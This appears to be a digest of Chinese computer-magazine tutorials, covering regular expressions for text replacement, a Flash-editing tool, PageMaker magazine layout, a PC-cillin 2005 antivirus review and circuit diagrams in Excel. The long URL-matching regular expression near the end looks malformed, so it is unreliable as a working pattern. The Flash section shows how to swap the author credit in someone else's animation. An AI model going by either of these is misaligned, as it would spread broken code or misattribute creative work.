- 2. 如何正确使用T恤转印纸
网页地址：http://www.epson.com.cn/tech_support/faq/document.asp?articleId=2880&ColumnId=196&pg=&view=
重点体会：这个网页上的内容正是本文实战2的内容来源，不过它的步骤更加详尽，而且配有很多示意图，明白易懂。
延展练习：有条件的读者（不一定非得是EPSON打印机），不妨按照它上面所说的方法，给自己定制一件个性化T恤。

- 3. 国外T-Shirt图案风格设计赏析
网页地址：http://www.blueidea.com/news/other/2004/2102.asp
重点体会：多多欣赏他人的作品，往往能激发出自己的灵感。
延展练习：好作品不一定要以复杂度来衡量，简单的几笔插画也能创作出冲击力十足的作品来。大家可在Photoshop中试着制作几个自己创意的图案。

（北京 流言）

## 几小时变几秒针

经常用电脑做文字处理的朋友应该遇到过很多麻烦事，其中最让人头痛的莫过于搜索和替换了。如果只是简单的“ABC”换成“AAC”当然简单，但如果是将所有“ABC”、“ACC”都转换为“ADC”，是不是有些麻烦了？其实只要学会“正则表达式”，这些问题均迎刃而解。

## 挑战

首先给大家出一道题：对一篇文档进行处理，将文章中所有网址都替换为 http://www.cfan.com.cn，这个看似简单的任务其实相当麻烦。毕竟网址写法各有不同，比如 http://*******.UserGroup/*******/230.aspx&e=9690，而且网址长度也不相同，如何来进行这样的操作呢？是不是很好奇？看完本文后，相信你就有办法搞定这个复杂问题了。

学过HTML、JAVA、PHP、C#编程的朋友对“正则表达式”都不会陌生，完全掌握正则表达式并不比学习一种编程语言容易，对于普通用户，似乎没有必要研究这些深奥的东西。其实不然，现在正则表达式已经被许多搜索引擎和文本编辑工具所支持，而且只要经过一点点练习，你就会觉得这些复杂的表达式其实写起来还是相当简单的。一旦弄懂它们，就能把数小时辛苦而且易错的文本处理工作压缩在几分钟（甚至几秒钟）内完成。

## 妙用“Flash橡皮擦”“改”出精彩

看到别人制作的Flash动画，真想把它们改头换面“占为己有”，可是找不到Flash动画源文件，怎么改呢？别着急，“Flash橡皮擦”可以帮你梦想成真。“Flash橡皮擦”是一款能删改、替换Flash动画中的各种元素（如：矢量图、文本、图片、按钮等）的工具软件，它操作简单，没有多少Flash制作经验的人也能使用它。

注意：用“Flash橡皮擦”修改自己不慎丢失了源文件的Flash动画是绝对没问题的，但如果是修改别人的动画，一定要得到作者授权哦。下文仅仅是一个示例，主要目的是让读者学会这款软件的使用。

| "Flash橡皮擦" 小档案 | |
| --- | --- |
| 软件版本 | 0.8 |
| 软件大小 | 755KB |
| 软件性质 | 共享软件 |
| 运行平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/31850.htm |
| 软件备注 | 软件安装界面是英文，不过安装完成后会自动转为中文版。 |

### 实例1：擦掉动画中“多余”的东西

第一步：安装好“Flash橡皮擦”后，运行它进入软件主界面。单击“打开”按钮（工具栏上第一个图标即是），打开要修改的Flash动画，在窗口右侧即可看到该动画的资源分类了（见图）。



第二步：假如想要删除该Flash动画上显示的网址，可单击“Shape(矢量图)”前的“+”号展开该项，然后依次点击Shape0、Shape1等项查看每项是什么内容。如果是你想要删除的内容，点击该项前面的复选框使其打上“√”标志，然后再单击工具栏上的“删除”按钮删除该项（工具栏上第五个图标）。

第三步：删除之后会自动启动测试Flash动画窗口播放动画，检查一下操作是否正确，如果正确无误则单击测试窗口右下角的“应用”按钮确认即可。如果有多个对象需要删除，可在多个对象前打“√”，然后再单击“删除”。最后单击工具栏上的“保存”按钮（只有注册版才有保存功能）。

### 实例2：轻松为Flash动画换脸

网上有不少精美的Flash动画，可以给它们“改头换面”变成自己制作的Flash动画，发给好友欣赏一下，一定能吓他们一大跳的。

第一步：运行Flash MX 2004，自己先制作一个简单的动画，比如仅输入一些简单的文字：“制作：李晓珺”，测试并保存为SWF文件。

第二步：启动“Flash橡皮擦”，打开准备修改的动画文件，然后在窗口右侧单击“Text(文本)”前的“+”展开它，依次点击Text0、Text1……一直找到原动画中的“制作：×××”为止（如Text8），在Text8前打上“√”，再单击工具栏上的“替换”按钮。在弹出窗口中，单击“swf文件名”右侧的“…”按钮找到刚才制作的SWF文件，选中Text0，再单击窗口右下角的“替换”按钮即可。

第三步：在自动运行的测试窗口中预览效果，满意之后，单击“应用”，最后保存动画即可。这样，不费吹灰之力，一份“属于”你的精美Flash就诞生了，快发给你的好友吧！

（甘肃 李晓珺）

| 小知识 |
| --- |
| 正则表达式（英文名称Regular Expressions）最早是在1956年数学家Stephen Kleene的一篇名为“神经网事件的表示法”的论文中提出的概念。随后，Unix主要发明人Ken Thompson发现可以将它应用于计算搜索算法的一些早期研究。正则表达式的第一个实用应用程序就是Unix中的Qed编辑器，从那时起直至现在，正则表达式都是基于文本编辑器和搜索工具中的一个重要部分。 |

## 正则表达式基础与实例

从字符组成上讲，正则表达式由元字符和普通字符组合而成。元字符就是一些具有特殊含义的字符，它控制着正则表达式的搜索规则，告诉软件如何进行搜索，元字符包括\、^、$、+、*、?等。除元字符外的那些字符，例如所有大写和小写字母、所有数字、所有标点符号及一些其他符号等，都是普通字符，普通字符在正则表达式中出现时不会发生任何功能上的变化，是什么就搜索什么。对于正则表达式来说，学习元字符是其核心，但对于许多没有接触过正则表达式的朋友，或许对它并没有一个直观认识，下面先通过一个实例看下正则表达式和元字符到底“长什么样”，了解一下如何实现正则表达式的搜索功能。

### 实例1：一次删除所有空行

在EmEditor中有个小插件可以直接删除所有空行，但它不能直接删除含有空格的空行，还需要先运行另外一个删除行首空格的插件。如果使用正则表达式，就能一次轻松搞定。另外，如果你没有下载删除空行的插件或者在其他没有删除空行功能的编辑器中，只要能支持正则表达式，就能完成这个任务。

用EmEditor打开该文件，单击菜单“搜索→替换”，首先需要选中“使用正则表达式”选项才能打开正则表达式搜索功能，然后在“搜索”栏中输入正则表达式 “^\s*\n”（不含引号），“替换”栏什么都不输，单击“全部替换”按钮立刻就解决了（见图1）。

### 什么是正则表达式？

回想一下你平时是如何在硬盘中查找文件的，相信一定经常使用“？”和“*”这两个通配符来帮忙。其实正则表达式也与此类似，但功能更加强大，使用更灵活。它与我们在初中读书时学过的数学表达式有很多相似之处，数学表达式描述了我们如何进行混合运算，而正则表达式则描述了如何查找复杂字符串，在数学表达式中有+、-、×、÷、（）等运算符号，而在正则表达式中也有用来描述搜索规则，类似于运算符号的特殊字符，我们称它们为“元字符”，正是这些元字符的不同组合才产生了灵活而功能强大的正则表达式，而且正则表达式可以像创建数学表达式那样将多个子表达式结合在一起创建更强的表达式，因此可以描述各种复杂搜索，完成许多以前几乎不可能完成的任务。

现在的正则表达式功能已被广泛应用于很多程序的搜索和替换功能，像著名的文本编辑器EmEditor、EditPlus、UltraEdit等都支持正则表达式搜索。而TotalCommander（简称TC）就更厉害了，可以在它的查找文件、批量重命名、文件选择以及文件显示过滤器中使用正则表达式。

元字符学习：

1. 这里用到了正则表达式中一个非常重要的元字符“\”，它叫转义引导符，根据它后面带的字符不同，可以实现不同转义功能：

- ★后面带数字。
形式为\xnn，可以转义为ASCII码值为十六进制数nn的字符，例如\x20代表空格。



- ★后面带元字符。因为元字符本身都被定义了特殊含义，所以要搜索这些元字符时，就要使用转义符引导，使其成为普通字符性质，例如“\.”代表句号，而“\”则代表反斜杠本身。一个复杂一点的例子，要使用正则表达式查找字符串“soft\[microsoft\]”，应输入“soft\[microsoft\]”。

- ★后面带特定字母。
\w 代表字母、数字或下划线字符，等同于[a-zA-Z0-9_]。
\W 代表非字母、数字和下划线字符。
\d 代表任何数字字符。
\D 代表任何非数字字符。
\t 代表一个制表符，等同于\x09。
\n 代表一个换行符，等同于\x0a。
\r 代表一个回车符，等同于\x0d。
\f 代表一个换页符，等同于\x0c。
\s 代表任何空白字符（空格、制表符、回车），等同于[\t\n\r\f]。
\S 代表任何非空白字符。

2. 其中“^”元字符表示它后面带的字符只有出现在行首中才算有效。例如，在“when freedom meets freshness and every step is like the very first one”中搜索“^step”时就会出现找不到的提示，因为其中的单词“step”是出现在行尾的。该元字符在TC中与\A作用相同。

## 小提示

如果想指定字符出现在行尾有效，则可以使用元字符“$”，它表示其前面的字符出现在行尾才算有效，例如，“step$”。它在TC中与\Z作用相同。

3. 其中的“*”元字符表示它左侧的字符或表达式可以出现零次或多次。具备类似功能的元字符还有：

- +：表示该元字符左侧的字符或表达式可以出现一次或多次。
？：表示该元字符左侧的字符或表达式可以出现零次或一次。
{ }：这是重复计数定义元字符，它可以指定该元字符左侧的字符或表达式出现的次数，它有三种使用方法，“{n}”表示出现n次；“{n,}”表示至少出现n次或者更多次；“{n, m}”表示至少出现n次，但最多m次。

解析：根据上面的元字符介绍可以知道，其中“\s*”表示搜索所有空白字符，包括空格，“\n”表示搜索所有换行符，两者结合使用，则表示搜索所有前面有空格或没有空格的换行符，但直接使用这个表达式，就会导致段落结束的换行符也会被搜索到，因此又在前面加了一个“^”符号来限定只搜索出现在行首的情况，而我们在替换中没有输入任何内容，就表示将这些搜索到的内容删除，这样就实现了一次删除所有空行的目的。

### 实例2：将文档中的英文半角引号替换为中文全角引号

在EmEditor中打开要替换的文档，单击菜单“搜索→替换”，选中“使用正则表达式”选项，然后在“搜索”栏中输入正则表达式“`"([^"]*?)"`”（不含外侧中文引号），“替换”栏输入“`"\1"`”（不含外侧中文引号），单击“全部替换”按钮即可（见图2）。

元字符学习：

1. ( )：子表达式定义元字符，前面说过，一个完整的正则表达式可以有多个子表达式，这一对括号就是用来标记一个子表达式的开始和结束位置的，这点和数学表达式是一样的。

2. [ ]：这是字符集合定义元字符，可以用这一对方括号括住一个字符列表，搜索到列表中的任意一个字符即表示有效，使用破折号可以代表一个字符范围，例如“[h-k]”可以搜索“h、i、j、k”中的任何一个字符；在这对方括号中使用“^”符号表示该符号后面的字符列表可以被排除（注意与前面介绍的搜索行首元字符的区别）。因此，[a-z]可以搜索所有小写字母中的任何一个；[a-zA-Z]可以搜索所有大小写字母中的任何一个；而[a-z^rt]则会搜索所有a至z的小写字母，但不含r和t；更复杂一点的例子，M[ae][iy]er可以搜索到Mayer、Meyer、Maier、Meier。

3. .：这是一个英文句号，该元字符可以代表任意字符，等同于传统搜索模式中的“?”通配符。

解析：看起来这是一个比较简单的问题，但真正实现起来却是有一定难度，关键点在于全角引号需要配对使用，笔者刚开始使用表达式“`"(.*)"`”（不含外侧中文引号）搜索，结果只有段落首尾的半角引号被替换，中间的都没有被替换。例如：“正确”“错误”“”回答”，被替换成了：“正确”“错误”“”回答”。

这当然不是想要的结果，其实这是正则表达式默认的贪婪匹配模式在起作用，也就是说在使用重复计数元字符*、+、?、{n}、{n,}、{n, m}时，默认会尽可能多地匹配搜索的字符串，于是这里搜索“`"(.*)"`”时会找到整个字符串的最后一个引号处才算完成，这样就只会替换两边的引号。为了解决这个问题，我们需要解除贪婪匹配模式，方法是在重复计数元字符后面加上一个“？”即可切换到非贪婪匹配模式，这时表达式会尽可能少地匹配所搜索的字符串。于是，修改后的正则表达式就是“`"(.*?)"`”，使用它就可以正确替换为：“正确”“错误”“”回答”。

为了更准确地排除半角引号“`"`”的干扰，我们更进一步，使用字符集合元字符中的排除功能，添加“`[^]`”前缀，最终的完整正则表达式就是“`"([^"]*?)"`”了。

### 实例3：巧用正则表达式改名

通常从网上下载的歌曲文件名都是“歌手名 - 曲名.mp3”的形式，想改名为“曲名 (歌手名).mp3”的形式。

选中所有要重命名的文件，打开TC中的批量重命名功能窗口，选中右侧的RegEx选项，开启正则表达式支持功能，然后在“搜索”栏输入正则表达式“`(.*) - (.*)\.mp3`”（不含引号），在“替换”栏输入正则表达式“`$2 ($1).mp3`”（不含引号），这时你会发现下面文件列表栏中的“新名称”已经显示改名后的结果，单击“开始”按钮进行改名即可。

元字符学习：

一个正则表达式可能含有多个子表达式，每个子表达式的匹配结果值将会被保存到一个临时缓冲区中，它们从左向右从1开始编号，我们可以使用\1、\2……来引用各个子表达式的值。但要注意的是，在TC中则是使用$1、$2……来引用各个子表达式的值。

解析：其中`(.*)`用来表示任意多个任意字符，“`(.*) - (.*)\.mp3`”就代表了“歌手名 - 曲名.mp3”形式的任意文件名，而在TC中使用“$1”代表第一对括号中的子表达式匹配结果值，也就是歌手名部分，“$2”代表第二对括号中的子表达式匹配结果值，也就是曲名部分，经过换位就变成了“曲名 (歌手名).mp3”的形式。

## 小提示

和数学表达式中的加减乘除一样，正则表达式中的元字符也是有运算优先级的，相同优先级从左到右进行运算，不同优先级的运算先高后低，各种元字符的优先级顺序从高到低如下:\(转义符)→()、[]（圆括号和方括号）→*、+、?、{n}、{n,}、{n, m}（重复计数）→^、$、\元字符（位置限定和元字符转义）→（可选操作）

## 综合实例秀

### 实例1：歌词巧收集

从网上找到的歌词多是LRC格式的文件，这些文件中的每行歌词前面都有时间标签，我想把这些时间标签去掉，转换为纯歌词文本，以方便打印输出。
打开EmEditor，选择“搜索”菜单中的“多文件替换”功能，这样可以对多个文件进行一次处理，在打开的窗口中单击“在文件夹”后面的“…”按钮选择LRC歌词文件所在路径，在“文件类型”栏输入“`*.lrc`”，然后选中“使用正则表达式”选项，并在“查找”栏输入表达式“`\[.*\]`”，“替换”栏留空，最后单击“全部替换”按钮即可将所有的LRC文件处理成纯歌词文本了。

解析：对这些LRC歌词文件分析发现，其时间标签全部都在“[ ]”括号内，但由于在正则表达式中“[ ]”是元字符，当它要作为普通字符搜索时，前面都需要加上“\”转义符。

## 小提示

许多配置文件中都有以分号“;”开头的注释行，如果想把这些注释行全部删掉，也可以使用本例中的表达式举一反三，在“搜索”栏中输入“`;.*\n`”，“替换”栏留空即可删除。

### 实例2：菜鸟的“正则表达式”

将一个文档中的“第 * 讲”替换为“第 * 讲：”，即将“第一讲”替换为“第一讲：”，“第二讲”替换为“第二讲：”……

虽然用正则表达式可以解决很多复杂的替换问题，但对于菜鸟来说，熟练地使用正则表达式还是有一定难度的。针对这个问题，下面我们介绍一种简单的高级替换解决方案，使用的软件就是装机必备的Word。

打开Word，点击菜单“编辑→替换”，单击“高级”按钮，在“查找内容”中输入“第”（不含引号），接着点击“特殊字符”按钮，选择“任意字符”，并继续输入“讲”（不含引号）；将光标定位至“替换为”栏，选“特殊字符→要查找的文字”，然后再输入“：”（不含引号），最后点击“全部替换”按钮。

最后，我们再来看看文章开头提到的实例。

要完成所有网址的替换我们也要同样要借助于EmEditor。进入软件，单击菜单“搜索→替换”，选中“使用正则表达式”选项，然后在“搜索”栏中输入正则表达式“`((http|https|ftp):(/|\|\)([\w]+[.])([1,](net|com|cn|org|cc|tv|[0-9]{1, 3})(([\|\~\*\[\]\*\ \(\w)+[.](\w)+)*((([?](\w)+){1}[=]*)* ((\w)+){1}([\&](\w)+[=](\w)+)*)*))`”（不含外侧中文引号），“替换”栏输入“`http://www.cfan.com.cn`”（不含外侧中文引号），单击“全部替换”按钮即可。

元字符学习：

|：可选元字符。由竖线“|”分隔的一组字符为可选字符，为了避免歧义，最好用圆括号括起来，这个元字符的功能类似于逻辑或运算。例如“`(John|James|Peter)`”会搜索John、James或Peter中的任意一个，但要注意，这个表达式是按从左到右的顺序匹配的，并且只匹配一个，例如在该例中，如果搜索到John，便不会再继续搜索后面的了。

## 小提示

竖线“|”在字符集合元字符“[]”中使用时只是普通字符，而不是作为可选元字符，所以[ab|cd]的含义是abcd和竖线中的任意一个字符，而不是选择匹配ab或者cd。

解析：要判断字符串是否为网址，需要下面几个条件。

条件一：常见的网址是以http://、https://或ftp://开头，而这部分转换为正则表达式就为(http|https|ftp):(/|\|\)。

条件二：在http://后面必须要紧跟一个单词字符（一般为www），然后就是字符“.”（这样的组合必须出现一次或多次），最后就是域名（net、com、cn或数字的IP地址等），这部分转换为正则表达式就为`(([\w]+[.])([1,](net|com|cn|org|cc|tv|[0-9]{1, 3}))`。

条件三：在完整的链接后，可能会出现下一级或更多级的目录，甚至是“~”符号，此条件变为正则表达式为`(([\|\~\*\[\]\*\ \(\w)+[.](\w)+)*)`。

条件四：链接的末尾还可以带有参数，如前面提到的230.aspx&e=9690或是?Page=2&action=display等，换为正则表达式为`((([?](\w)+){1}[=]*)* ((\w)+){1}([\&](\w)+[=](\w)+)*)`。

看着有点晕吧，拿出笔纸，分析一下吧。
(软件DIY)## 今天！我来做本《电脑爱好者》
### ——学用专业排版软件 PageMaker

平时写个论文、打个报告，用 Word 之类的字处理软件就能解决，但对杂志、报纸、图书、广告图册等需要大批量发行的印刷品来说，最好还是用 PageMaker、飞腾等专业排版软件。学会 Word 可以让你更好地工作，但精通排版软件的使用则可能让你找到更好的工作。像精美的《电脑爱好者》就是用 PageMaker 编排出来的，本文将以该软件的 6.5C 版为例，让你快速学会如何制作专业的杂志。

### 芝麻开门
说起 PageMaker 排版，《电脑爱好者》设计制作部的 GG、MM 都称得上是顶尖高手了，小编不惜以“请吃饭”的承诺，讨教了一些排版秘技。

格格:学排版，最好要了解一些基本概念。比如，什么叫版面、版心、天头、地脚、订口、切口。书刊每一页的整幅页面就叫版面，它包括版心、书眉、中缝、页码及边白。版心指书刊版面正中间容纳文字(一般不包括书眉、中缝和页码)的部位，PageMaker 中每个页面都用两个方框表示，外面的大框表示整个版面，中间的小框即是版心。天头指版心上方的白边，地脚指版心下方的白边，订口为版心内侧的白边，切口指版心外侧的白边。

林 MM:还比如“出血”，在彩刊的设计中就非常重要。现在的彩刊，一般在整个页面都会铺上一层图形背景，设计的时候，这个背景图形得稍微比实际版面大一些，一般要多出 3mm，否则在装订裁边的时候，会因为细微误差而导致白边的现象，非常难看。这个故意多出来的 3mm，即所谓的“出血”。

小懒:你们两个都讲的概念，我还是给大家来点实惠的吧，我觉得熟记几个快捷键的使用，会大大提高工作效率，下面我列几个自己常用的快捷键，供大家参考。

-   Ctrl + S : 快速保存
-   Ctrl + D : 快速置入文本或图形
-   Ctrl + [ 或 ] : 所选对象置前或置后
-   Ctrl + Shift + E : 对齐对象
-   Ctrl + Alt + E : 文本绕图
-   Ctrl + G 或 Ctrl + Shift + G : 群组或解组
-   Ctrl + 鼠标右键 : 放大或缩小视图
-   Ctrl + J : 显示或隐藏调色板
-   Ctrl + B : 显示或隐藏排式面板
-   双击手形工具 : 全页显示
-   双击放大镜工具 : 真实大小显示

如图 1 所示，是笔者从《电脑爱好者》游戏版——《互动软件》杂志上截取的一页。本例将带你一步一步完成该版面的设计制作，从而熟悉 PageMaker 工作流程。本例所有相关图形、文本及最终 PageMaker 排版文件，可到 http://www.newhua.com/cfan/200511/pg.rar 处下载，以方便你学习。

第一步：准备素材。一般来说，文本内容及图片素材主要由编辑提供，排版人员收到这些素材后最好处理一下，文字内容转换成 TXT 文本格式以方便导入，图片最好在 Photoshop 中转成 TIF 格式。

第二步：设置版心。启动 PageMaker，单击菜单命令“文件→新建”打开文档设定窗口。本例的杂志是标准的十六开本；比标准 A4 打印纸稍小一些，所以在“自定尺寸”中设置宽、高尺寸为 185 × 260 毫米；选中“双面”和“对页”两项，这样 PageMaker 每次会显示出左右两页的内容，方便排版；“页数”及“起始页码”则视具体杂志而定，比如《互动软件》杂志的总页数为 144，起始页码为 1；页面的边界是指版心到页边的距离，本例中，内、外、顶部、底部边界分别设置为 15、15、22、15，这些也应根据具体情况而定(见图 2)。

小提示
因为时效性原因，像 140 多页的《电脑爱好者》游戏版——《互动软件》杂志通常会由两、三个人合作排版，一般一个栏目即创建一个独立文件，这时页数要定为栏目的数目(如 8 页)，起始页码要定为该栏目实际的起始页码(如第 41 页)。

第三步：创建主页。
1.  文档设定完毕，单击“确定”按钮即可进入 PageMaker 主界面了。如图 3 所示，中间两个大方框代表的是左右两个页面，里面的小方框即是每页的版心了。只有放在页面上的内容才会被打印出来，页面周边的空白区域则好像是舞台的后台，上面可以随意存放图片或文本内容，不用担心它们会被打印出来的，它们常常用来临时存放一些文本或图片。接下来单击菜单命令“文件→保存”把新建文档保存起来，本例将其命名为 zazi.p65。

2.  主界面左下角会显示 L、R、1、2、3、4 等页面标签，单击页面标签可随意切换位置，黑色显示的标签则表示当前所在页面的位置。其中 L、R 两个是主页标签，L 表示左，它上面的内容将显示在所有左侧的书页上；R 表示右，它上面所有的内容将显示在所有右侧的书页上。因为主页的这个特性，所以它们常被用来放置页眉页脚、杂志名、栏目名、Logo 等固定不变的页面元素。

3.  简单起见，本例没有设计复杂的页眉、页脚，只是简单地加上了栏目名称:单击左下角的 L、R 标签切换到主页中(见图 3)，选中工具箱中的放大镜工具，在页面上点击以放大视图(按 Ctrl 键不放再单击，可缩小视图)；选中手形工具，然后按住页面不放并拖动，可随意调整页面的显示位置；如图 4 所示，选中文本工具“T”，在主页左上角处点击一下鼠标，输入栏目文字(如：“流金岁月”)，选中这几个文字，然后执行菜单命令“文字→字体/大小”，对字体进行设置(本例字体大小为 24，隶书)；点选工具箱中的选择工具(即黑箭头图标)，用它点击输入的文字，然后拖动文本框四角的节点可调整文本框的大小，使其与文字大小相称，然后按着文字拖动，将其放置到适当的位置。

4.  选择文本工具再在页面上点击一下，然后按 Ctrl + Shift + 3 组合键，将会出现“LM”字样，它表示为左页页码。页码是一个特殊的元素，它会自动由小到大递增，这样就不用一页一页手动添加页码了。就像对文字操作一样，对页码(选中“LM”)也可进行各种设置。用黑箭头选择工具将页码拖到栏目名的左侧，然后按住 Shift 键不放再依次单击)页码及栏目名，按 Ctrl + C 组合键复制，再按 Ctrl + V 组合键粘贴，将粘贴出来的内容拖到右主页的右上角处，此时你会发现 LM 自动变成 RM 了，它表示为右页页码，将它拖放到栏目名的右侧。

5.  双击工具箱中的手形工具，将整体显示出两个页面。为了保证左右两侧页眉上的页码及栏目名水平对齐，可全选它们，再执行菜单“成分→对齐对象”命令，在打开的对话框中选中一种对齐方式(本例选择的是底部对齐)，确定即可(见图 5)。

6.  如果杂志大部分页面都是划分为两栏的格式，可执行菜单命令“版面→栏辅助线”，在打开的对话框中将“栏数”设置 2 栏，“间距”设置为 5 毫米，确定即可。这样，所有页面上都会显示出分栏辅助线来。至此，本例的主页就设置完成了，你还可以加入更复杂的设计，如加入各种装饰图形等。

第四步：置入文本内容。设置好主页后，单击左下角的页面标签“1”进入第 1 页。大家可以注意一下，看看页面右上角是不是自动显示出“流金岁月 1”的字样来(奇数为右页)，这就是我们在主页中设置的效果。

1.  执行菜单“文字→定义排式”命令调出定义排式对话框，如图 6 所示，点选“正文”项，再单击“编辑”按钮，从随后打开的对话框中分别单击“字符”、“段落”等按钮设置正文字体的大小、行距等。本例中，正文字体为宋体，大小为 8 点，行距为 11；在段落设置中，首行缩进设置为 6 毫米(差不多是两个字的距离)。设置好后，连续单击“确定”返回。

2.  切换到“排版”面板(如果该面板没有显示在屏幕上，可执行“窗口→显示排版面板”命令将其调出)，点选刚刚定制的“正文”排版。接下来单击菜单“版面→自动排文”，使其前面出现一个对勾号。现在就可以置入文本了，执行菜单“文件→置入”命令打开置入对话框，选中需要置入的文本文件(本例中为war.txt)，单击“打开”按钮，弹出导入字符编码格式提示窗口，直接单击“确定”即可。此时光标会变成一个拐尺带一个弯箭头形状，将光标拐尺对齐页面版心的左上角单击即可，置入的文字会自动分栏。如果文章很长，当前页面数不够，PageMaker能自动创建新页面(见图7)。

小提示 如果没有勾选“自动排文”，每次单击只能置入一栏文字，当文字没有排完时，在当前页面最底部显示一个红色三角形标志，单击该标志，光标变成小文本框形状，再次点击又会继续置入，反复操作直到全部置入为止。

3.  PageMaker中的文字编辑操作与在Word中的操作差不多，这里就不详细说了。稍有不同的是，PageMaker的文字格式设置不像Word那样在顶部的工具栏中。如图7所示，当在工具箱中选择文本工具时，控制面板上显示的都是跟字体相关的选项。

第五步：设计标题及题图
1.  首先要为文章标题腾出空间来。在工具箱中选中黑箭头选择工具，点击一下左栏文字，将会显示一个文本框，按住(注意：一定是按住，而不是点击)文本框顶部的半圆形图标不放并往下拖动，即可将文本框压缩下去。用同样的方法将右栏文本框也下拉，这样标题的空间就有了(见图8)。

2.  从本文开始处的最终效果图可以看出，本文的标题是在Photoshop之类的图像处理软件中制作的，它实际上是一个图片而不是文字。题图一般也是在Photoshop中制作的。现在就把它们导入进来。与置入文本一样，执行菜单“文件→置入”命令，分别导入标题图片(本例为bosue.eps)及题图(本例为moshou01.tif)。导入图片时，会询问你是否包括图形副本，单击“是”确认，然后在页面上单击即可导入图形了。当两图重叠时，后导入的图形会盖住先导入的图形，如果层次不对的话，可点选某一图形，再按Ctrl + [或]组合键调整次序。

3.  从最终效果图看，文章的导言部分是一个独立的文字块，所以用文本工具将置入文本中的导言部分选取出来，按Ctrl + X组合键剪切，后面的文字内容会自动顺延上来。然后在页面之外的任意地方点击一下鼠标，再按Ctrl + V组合键将剪切的文字粘贴下来，它就成了一个单独的文字块了。使用文本工具选中文字，再在控制面板中设置它的字体、大小等属性；使用黑箭头选择工具拖动文本框移动它的位置，拖动四边的节点，则可以调整文本框的大小。本例的标题效果，如图9所示。

第六步：收尾工作。前面介绍了PageMaker中一些最基本的操作，剩下的可以说就是“体力劳动”了，不停地置入文本、图片，微调图文的格式、位置，设置各种字体排式等，在经过三校改错后，就可以送给胶片厂打样出片了。当然，排版过程中有许多的技巧细节，不可能在一篇文章中讲清楚，大家可以以此为基础，在实践中慢慢摸索。

号外 据网上的消息，Adobe已经停止PageMaker软件的开发和升级，代替PageMaker的将是InDesign。不过，目前在出版行业，PageMaker所占据的份额非常大，在很长一段时间里PageMaker依然会是主角。只要我们既能熟练掌握正流行的传统工具，同时不忘关注业界的最新发展，就会立于不败之地。

## 全球数亿用户同时享受的杀毒软件
### PC-cillin 2005 网络安全版

如果你经常使用Sina或Hotmail邮箱，会发现在这两个Web邮箱中，都有“杀毒”功能，作为两个邮箱提供商，它们的“杀毒”功能是源自何处呢？这个幕后的英雄就是趋势科技，日前，趋势推出了最新的PC-cillin 2005网络安全版(以下简称PCC)。与老版本相比，新版本增加了家庭网络控制、Wi-Fi检测、间谍软件扫描和清除、安全漏洞检查及加速扫描等实用功能。如果想试用新版本，可以去http://www.trendmicro.com.cn/sina下载最新的90天试用版。

### 1.软件的安装
PCC是一款集杀毒、清除间谍软件、网络防火墙于一体的安全软件，但很多朋友都习惯安装一款专门的网络防火墙，于是PCC在新版中提供了“简单安装”(见图1)。安装后，你要打开软件的主界面，点击“更新与注册→注册”项，进行产品注册，这样你才可以进行病毒库的升级。出于安全考虑，软件安装后，有时会出现无法访问网络的问题，这时你需要进行简单的设置(以网络环境是办公室为例)。第一步：打开PC-cillin 2005主界面，选择菜单中的“网络安全→个人防火墙”，点击“启用个人防火墙”，并从下拉菜单中选择“办公室网络”，点击“应用”。第二步：在“编辑配置文件”下选择“办公室网络”，在弹出窗口中勾选“网络”选项卡下的“默认网关”项。第三步：点击“例外列表”下的“添加”按钮，打开“添加/编辑个人防火墙例外”窗口，然后按图2及图3所示新建两个连接即可。

### 2.家庭网络控制
现在越来越多的家庭有两台甚至更多的电脑，在以往我们只能买多套杀毒软件，为每台电脑安装。而PCC的一个注册号可以同时安装在局域网内最多五台电脑中，而且PCC还提供了非常方便的“家庭网络控制”功能，即在一台电脑上就可以控制同网络内其他电脑上的PCC进行杀毒、更新其程序组件等。而且使用方法很简单：第一步：双击系统托盘PCC图标，打开PPC主界面，在窗口左侧点击“网络控制”按钮。第二步：在窗口右侧点击“密码”项，设置好密码，然后点击“家庭网络控制”项，这时软件就会自动搜索局域网内安装有PCC的电脑，选择好后，就可以通过“扫描病毒”、“更新组件”等按钮进行设置了。

### 3.创新的Wi-Fi检测
随着无线设备的疯狂降价，很多人在家里或单位中都已经架设了无线局域网，虽然设备是有了，但访问无线网络比进行物理连接容易得多，因此网络入侵成了一个严重的问题。PCC将会在指定的时间间隔扫描网络，当发现新的电脑连接时就会发出警告。建议使用无线网络的朋友都打开些功能：在主界面窗口点击“网络安全→Wi-Fi检测”，就可进行监测。

### 4.间谍软件扫描和清除
现在越来越多的程序中都夹带了间谍程序了，于是越来越多的杀毒软件增加了间谍软件扫描和清除功能，这次PCC的升级也增加了这个功能：在主界面中选择“系统→间谍软件扫描”，再点击“扫描”按钮后，就会看到扫描的结果了，之后只要勾选需要删除的间谍软件，并点击“删除”按钮即可(见图4)。

### 5.加速扫描
“加速扫描”也是PCC此次升级的一大亮点，PCC会保留已经扫描文件的历史记录，如果文件自上次扫描后未发生任何改变，则不会再次进行扫描。这个功能可以显著减少“手动扫描”所需的时间。

## 专业电路图 Excel 也能行

绘制电路图的专业软件大都贵得要命，操作上专业要求也较高。小陈为了做机电控制培训的试卷琢磨出了一个好办法，而且画图速度和操作方法似乎还要比绘制电路图的专业软件好一些。如果你也和他一样，只是偶尔画一些小型电路图，只要用Excel 2003就可以轻松搞定了。另外，学会了这个方法，像物理实物接线图、组织结构图、化学实验图、生态系统图等也完全可以套用绘制。

### DIY 绘图元件
#### 第一步：制作元件
此方法中惟一比较麻烦的就是绘制各种元件，因为Excel 2003没有这些专业的图形，需要自己用自选图形绘制，至于那些不常用的元件大可以在需要时再绘制添加。

用各种自选图形组合出元件图，绘制时要注意元件出线的直线不要画，中间有空白的要画一个无边线色、填充白色的矩形放在下面，以挡住后面的表格线（见图1）。选中组合好的图形，在名称框中你会看到图形的名称（通常是：组合XX），把它删除，输入实际的名字，如“线圈”（见图2），回车确认。选中全部绘制好的元件图，右击，从“设置对象格式…”对话框的“属性”选项卡中选中“大小固定，位置随单元格而改变”单选按钮。

#### 第二步：基本设置
选中全部单元格设置行高28、列宽4，这差不多相当于实际打印的1cm左右。选中全部单元格设置对齐方式为水平居左、垂直居中，设置字号为10。把组合好的元件图放置在工作表左侧的A-C列中，调整位置使得元件的横向出线点正好与横向表格线重叠，竖向出线与纵向表格线重叠，同时有纵、横向出线的则放在表格线交叉处，让它同时满足两个条件。为了将来旋转方便，对于同一元件按横放和竖放两种格式各画一个，如图2所示。

#### 第三步：编辑宏
